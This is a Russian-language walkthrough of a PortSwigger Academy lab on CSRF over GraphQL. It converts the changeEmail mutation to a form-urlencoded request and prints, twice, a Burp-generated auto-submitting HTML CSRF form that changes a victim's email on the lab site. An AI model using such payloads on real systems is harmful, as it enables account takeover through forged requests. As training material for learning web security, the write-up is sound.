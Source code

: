 Зайдем на уязвимый ресурс и залогинимся под `wiener:peter`

и даже сменим ему почту на `change@me.com`

Далее перейдем в `Proxy` -> `HTTP history` и найдем данный запрос и отправим его в `Repeater`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/5.%20Performing%20CSRF%20exploits%20over%20GraphQL/pics%20for%20walkthrough/1.png)

Далее, по заданию известно, что приложение поддерживает запросы `application/x-www-form-urlencoded`

изменим `Content-Type` на  `application/x-www-form-urlencoded` и отправим запрос, и получим 400 статус код
Да, логично, потому что в прошлом запросе мы передавали `json`, а тут надо в `url` кодирове
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/5.%20Performing%20CSRF%20exploits%20over%20GraphQL/pics%20for%20walkthrough/2.png)

Соответсвенно изменим 
```
{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"change2@me.com"}}}
```
в URL кодировку, и получим

все `"` меняем на пустой символ (ничего)
`\n` тоже меняем на пустой символ (ничего)
Лишние `пробелы` удаляем, а один отправляем на `%20`
`,` меняем на` &`

В итоге получаем запрос 
```
query=mutation%20changeEmail($input:ChangeEmailInput!){changeEmail(input:$input){email}}&operationName=changeEmail&variables={"input":{"email":"change2@me.com"}}
```
отправляем его и получаем `200` респонс статус код

и даже если обновим страницу в браузере, увидим, что почтовый ящик сменился на `change2@me.com`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/5.%20Performing%20CSRF%20exploits%20over%20GraphQL/pics%20for%20walkthrough/3.png)

Отлично, теперь попробуем сгенерировать CSRF PoC


нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC` и изменим почту на `change3@me.com`
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4100bc034a91a28190a75f005900a0.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;change3&#64;me&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Протестим в браузере, и получим 200 респонс статус код, и то, что почта сменилась на `change3@me.com`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/5.%20Performing%20CSRF%20exploits%20over%20GraphQL/pics%20for%20walkthrough/4.png)

Все работает, а значит меняем `change3` на `change4` и идем в `Exploit server` вставлять

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4100bc034a91a28190a75f005900a0.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;change4&#64;me&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/5.%20Performing%20CSRF%20exploits%20over%20GraphQL/pics%20for%20walkthrough/5.png)

Нажмем `Store` -> `Deliver exploit to victim` и получим сообщение об успешно выполненной лабораторной работе
